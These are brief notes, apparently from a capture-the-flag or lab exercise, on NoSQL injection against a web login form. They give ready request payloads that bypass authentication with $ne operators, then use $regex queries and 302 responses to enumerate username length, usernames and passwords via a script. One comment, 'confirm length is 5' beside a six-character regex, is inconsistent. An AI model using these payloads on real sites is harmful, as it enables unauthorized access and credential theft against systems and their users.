 **auth bypass**  
username[$ne]=test&password[$ne]=test&login=login

**finding lengths**  
username[$regex]=.{6}&password[$ne]=test&login=login -- confirm length is 5

**finding username**  
username[$regex]=a.*&password[$ne]=test&login=login
also can just look for 302s across all chars, since there are multiple users

**passwords**  
feed it into script to find password
